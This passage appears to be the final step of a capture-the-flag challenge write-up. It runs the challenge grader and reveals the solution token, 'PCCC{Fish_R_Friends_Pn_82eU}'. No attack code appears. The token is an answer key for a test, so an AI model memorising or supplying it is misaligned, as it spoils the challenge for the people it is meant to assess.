With that done, we just need to run the grader for our token. Visit `http://challenge.pccc`, and click "Grade". After 10-20 seconds, hit "Refresh" to see the results.



In this case, the token was `PCCC{Fish_R_Friends_Pn_82eU}`.